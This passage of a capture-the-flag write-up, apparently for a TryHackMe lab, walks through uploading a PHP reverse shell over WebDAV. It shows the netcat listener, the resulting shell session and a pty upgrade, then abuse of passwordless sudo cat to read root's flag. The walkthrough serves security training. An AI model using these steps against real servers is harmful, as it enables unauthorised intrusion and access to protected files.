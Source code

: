 So we know from the list of commands and descriptions that we can add files directly, so lets try to upload the pentestmonkey php-reverse-shell.php file. I set up a netcat listening to port 4567 on my host machine and upload it using webdav.
```
dav:/webdav/> put rev.php rev.php
Uploading rev.php to `/webdav/rev.php':
Progress: [=============================>] 100.0% of 5489 bytes succeeded.
dav:/webdav/> 
```
No I go to the website webdav directory and it is there.

<img src="../images/dav_rev_php_shell.png" alt="reverse shell" width="400"/>

I just click and then I'm in on a shell.

```
/media/sf_CTF/tryhackme/dav$ nc -lnvp 4567
listening on [any] 4567 ...
connect to [10.9.12.213] from (UNKNOWN) [10.10.41.81] 53986
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:10:52 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@ubuntu:/$ ls
ls
bin   etc	  initrd.img.old  lost+found  opt   run   sys  var
boot  home	  lib		  media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64		  mnt	      root  srv   usr  vmlinuz.old
www-data@ubuntu:/$ cd home
cd home
www-data@ubuntu:/home$ ls
ls
merlin	wampp
www-data@ubuntu:/home$ cd merlin
cd merlin
www-data@ubuntu:/home/merlin$ ls
ls
user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
cat user.txt
<insert-user-flag-here>
```
There we have it a quick search and we have the user flag. 

Now let us see how we can get to root. 
```
www-data@ubuntu:/home/merlin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
sudo cat /root/root.txt
<insert-root-flag-here>
www-data@ubuntu:/home/merlin$ 
```
With sudo -l as cat, we just needed to read the root.txt file.
